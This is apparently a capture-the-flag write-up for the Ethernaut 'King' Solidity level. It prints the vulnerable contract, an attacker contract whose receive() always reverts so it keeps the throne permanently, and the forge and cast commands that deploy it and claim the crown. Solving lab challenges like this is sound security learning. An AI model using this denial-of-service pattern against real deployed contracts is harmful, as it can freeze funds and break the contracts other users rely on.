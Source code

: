 ## Fallback Level Outline

**Difficulty : 6/10**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

## Solution
The contract espects to be interacting with an EOA but we can force a revert and keep the crown if we make a malicious contract the king.

To make sure that we keep the crown when someone tries to claim it. We create a malicious fallback function in our contract which will revert after receiving ETH effectively keeping our malicious contract as the King.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ImposterKing {
    address king;

    constructor(address _king) payable {
        king = _king;
    }

    function claimCrown() public payable {
        payable(king).call{value: msg.value}("");
    }

    receive() external payable {
        revert("I will keep the crown :)");
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:ImposterKing --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. finding the current value of prize to see how much we need to overthrow the current king
```console
cast call $LEVEL_ADDRESS "prize()" | cast --to-dec
```
output
```console
1000000000000000
```
> take note that this is the value of prize in wei, meaning that we need to send more than 1000000000000000wei to become the new king

3. call the "claimCrown()" function on our newly deployed contract along with some eth
```console
cast send $DEPLOYED_ADDRESS "claimCrown()" --value 1000000000000001wei --gas 80000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract
